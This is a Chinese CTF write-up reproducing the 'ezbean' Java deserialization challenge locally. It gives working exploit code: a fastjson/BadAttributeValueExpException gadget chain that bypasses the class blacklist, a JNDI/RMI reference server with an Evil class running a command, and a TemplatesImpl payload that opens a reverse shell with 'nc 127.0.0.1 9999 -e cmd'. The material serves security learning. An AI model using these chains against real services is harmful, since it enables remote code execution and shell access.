





ezbean 本地复现。
环境 jdk8u102
MyBean.java
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 package com.ctf.ezser.bean; import java.io.IOException; import java.io.Serializable; import javax.management.remote.JMXConnector; public class MyBean implements Serializable { private Object url; private Object message; private JMXConnector conn; public MyBean() {} public MyBean(Object url, Object message) { this.url = url; this.message = message; } public MyBean(Object url, Object message, JMXConnector conn) { this.url = url; this.message = message; this.conn = conn; } public String getConnect() throws IOException { try { this.conn.connect(); return "success"; } catch (IOException var2) { return "fail"; } } public void connect() {} public Object getMessage() { return this.message; } public void setMessage(Object message) { this.message = message; } public Object getUrl() { return this.url; } public void setUrl(Object url) { this.url = url; } }
controller
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 package com.ctf.ezser.controller; import com.ctf.ezser.utils.MyObjectInputStream; import org.springframework.web.bind.annotation.RequestMapping; import org.springframework.web.bind.annotation.RequestParam; import org.springframework.web.bind.annotation.RestController; import java.io.ByteArrayInputStream; import java.util.Base64; @RestController public class IndexController { @RequestMapping("/read") public String read(@RequestParam String data) { try { byte[] bytes = Base64.getDecoder().decode(data); ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes); MyObjectInputStream objectInputStream = new MyObjectInputStream(byteArrayInputStream); objectInputStream.readObject(); } catch (Exception e) { e.printStackTrace(); return "error"; } return "success"; } }
MyObjectInputStream
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 package com.ctf.ezser.utils; import java.io.IOException; import java.io.InputStream; import java.io.InvalidClassException; import java.io.ObjectInputStream; import java.io.ObjectStreamClass; public class MyObjectInputStream extends ObjectInputStream { private static final String[] blacklist = new String[]{ "java\\.security.*", "java\\.rmi.*", "com\\.fasterxml.*", "com\\.ctf\\.*", "org\\.springframework.*", "org\\.yaml.*", "javax\\.management\\.remote.*" }; public MyObjectInputStream(InputStream inputStream) throws IOException { super(inputStream); } protected Class resolveClass(ObjectStreamClass cls) throws IOException, ClassNotFoundException { if(!contains(cls.getName())) { return super.resolveClass(cls); } else { throw new InvalidClassException("Unexpected serialized class", cls.getName()); } } public static boolean contains(String targetValue) { for (String forbiddenPackage : blacklist) { if (targetValue.matches(forbiddenPackage)) return true; } return false; } }
依赖
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 <dependencies> <dependency> <groupId>org.springframework.boot</groupId> <artifactId>spring-boot-starter-web</artifactId> <version>2.7.2</version> </dependency> <dependency> <groupId>com.alibaba</groupId> <artifactId>fastjson</artifactId> <version>1.2.60</version> </dependency> <dependency> <groupId>org.javassist</groupId> <artifactId>javassist</artifactId> <version>3.25.0-GA</version> </dependency> </dependencies>
rmi+fj二次反序列化 参考这篇，其中谈到了default constructor not found的问题：
https://wustzhb.github.io/2023/05/16/%5B2023AliyunCTF%5DWEB%E9%A2%98%E5%A4%8D%E7%8E%B0/
开始复现。所有环境都共用一台机。
exp
bd执行readObject时要恢复objects，即执行objects的readObject。objects要恢复自身的属性时，自己创建一个SecureObjectInputStream，调用他的readObject恢复自身属性，所以可以绕过题目MyObjectInputStream对java.management.remote的检查，相当于是二次反序列化了。
bd恢复完objects，调用他的toString。objects的toString会调用getter。
JSONArray换成JSONObject同样可以。
1 2 3 4 5 6 7 8 9 10 11 12 13 public static void exp3() throws Exception{ JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://127.0.0.1:1099/Foo"); RMIConnector rmiConnector = new RMIConnector(jmxServiceURL,null); MyBean myBean = new MyBean(null,null,rmiConnector); JSONArray objects = new JSONArray(); objects.add(myBean); BadAttributeValueExpException bd = Gadget.getBadAttributeValueExpException(objects); System.out.println(MyMethods.URLEncode(MyMethods.base64Encode(MyMethods.serialize(bd)))); }
rmi服务端自己起：
参考：https://ethe448.github.io/2023/05/22/JNDI%E6%B3%A8%E5%85%A5/#toc-heading-10
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 public class ServerExp { public static void main(String args[]) { try { Registry registry = LocateRegistry.createRegistry(1099); //一定要以斜杠结尾 String factoryUrl = "http://127.0.0.1/"; //对应http://127.0.0.1/下的Evil.class Reference reference = new Reference("Evil","Evil", factoryUrl); ReferenceWrapper wrapper = new ReferenceWrapper(reference); registry.bind("Foo", wrapper); System.err.println("Server ready, factoryUrl:" + factoryUrl); } catch (Exception e) { System.err.println("Server exception: " + e.toString()); e.printStackTrace(); } } }
Evil.java，编译之后放到80下。
1 2 3 4 5 6 7 8 9 10 11 12 13 //不可以带包名 public class Evil { static { try { Runtime rt = Runtime.getRuntime(); String commands = "calc"; Process pc = rt.exec(commands); pc.waitFor(); } catch (Exception e) { System.out.println("error!"); } } }
打三次，不多不少。

此时控制台信息：

可用template? 我看这题之前刚好看了会fastjson，看到这篇文章，可以绕fastjson的resolveClass的检查：
https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/
用我自己的话讲就是，ArrayList里先放一个template，然后JSONArray会因为这个template而绕过对他自己的template的resolveClass。
题目黑名单没ban com.sum.*，我自然就想到了用template。题目黑名单里有template则不能用。
我自己都觉得好奇怪，那这样题目的MyBean岂不是没用了？然后我甚至不敢相信，本地测，确实可以。
先把环境开起来，然后跑exp。
为了验证绕过确实是成功的，我写exp1 和 exp2，其中exp1是可绕过的，exp2报：autoType is not support
想打interceptor内存马，但是提示get参数太长。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 package com.ctf.ezser.exp; import com.alibaba.fastjson.JSONArray; import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl; import unknown.tools.Gadget; import unknown.tools.MyMethods; import javax.management.BadAttributeValueExpException; import java.util.ArrayList; public class Exp { public static void main(String[] args) throws Exception{ exp1(); } public static void exp1() throws Exception{ //TemplatesImpl interceptorShell = Gadget.getInterceptorShell(); TemplatesImpl templates = Gadget.getTemplateImpl("nc 127.0.0.1 9999 -e cmd"); JSONArray objects = new JSONArray(); objects.add(templates); BadAttributeValueExpException bd = Gadget.getBadAttributeValueExpException(objects); ArrayList<Object> objects1 = new ArrayList<>(); //下面这两个add交换顺序就报：autoType is not support objects1.add(templates); objects1.add(bd); String data = MyMethods.URLEncode(MyMethods.base64Encode(MyMethods.serialize(objects1))); System.out.println(data); //MyMethods.unserialize(MyMethods.serialize(objects1)); } public static void exp2() throws Exception{ TemplatesImpl templates = Gadget.getTemplateImpl("nc 127.0.0.1 9999 -e cmd"); JSONArray objects = new JSONArray(); objects.add(templates); BadAttributeValueExpException bd = Gadget.getBadAttributeValueExpException(objects); String data = MyMethods.URLEncode(MyMethods.base64Encode(MyMethods.serialize(bd))); System.out.println(data); //MyMethods.unserialize(MyMethods.serialize(bd)); } }
拿exp1生成base64：

送进题目，成功弹shell

此时题目的控制台：
